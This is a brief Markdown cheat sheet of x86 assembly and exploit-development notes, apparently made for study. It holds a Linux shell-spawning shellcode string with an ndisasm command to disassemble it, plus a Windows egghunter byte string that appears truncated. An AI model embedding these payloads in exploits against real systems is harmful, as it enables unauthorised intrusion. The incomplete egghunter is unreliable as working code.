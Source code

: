 # ASM Commands/Patterns
======

## Background Info
------
#### ESP
Points to the top of the stack
#### EBP
Used to calculate an address relative to another address.  Aka frame pointer.
#### push
Pushes data on top of the stack.  Only changes the value of ESP.  
#### pop
removes data from the top of the stack.  Only changes the value of ESP.

## Commands
------
#### mov eax,[ebp+10h]
Move a dword from 16bytes (hex 10) down the stack into EAX.

## Turn Shellcode into ASM
------
#### Shellcode to ASM
echo -n "\x31\xC0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x0a" | ndisasm -u -
#### Cyberchef
+ From Hex "\x"
+  To Hex " "
+  Disassemble x86


## Simple Egghunter
------
#### Egghunter delimited by w00tw00t egg
"\x66\x81\xCA\xFF\x0F\x42\x52\x6A\x02\x58\xCD\x2E\x3C\x05\x5A\x74\xEF\xB8".;
